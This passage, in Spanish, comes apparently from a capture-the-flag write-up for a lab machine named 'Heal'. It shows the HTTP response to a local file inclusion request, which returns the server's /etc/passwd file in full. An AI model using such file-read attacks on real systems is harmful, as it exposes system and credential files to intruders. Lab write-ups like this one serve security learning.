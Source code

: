 ![image-center](/assets/images/posts/heal-lfi.png)
{: .align-center}

Al enviar la solicitud anterior al servidor veremos la siguiente respuesta, contendrá el archivo solicitado

~~~ http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 16 May 2025 17:16:36 GMT
Content-Type: application/octet-stream
Content-Length: 2120
Connection: keep-alive
access-control-allow-origin: http://heal.htb
access-control-allow-methods: GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD
access-control-expose-headers: 
access-control-max-age: 7200
x-frame-options: SAMEORIGIN
x-xss-protection: 0
x-content-type-options: nosniff
x-permitted-cross-domain-policies: none
referrer-policy: strict-origin-when-cross-origin
content-disposition: attachment; filename="passwd"; filename*=UTF-8''passwd
content-transfer-encoding: binary
cache-control: no-cache
x-request-id: 7c077706-7226-4f12-a3ae-59cdfe1bf715
x-runtime: 0.004388
vary: Origin


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
~~~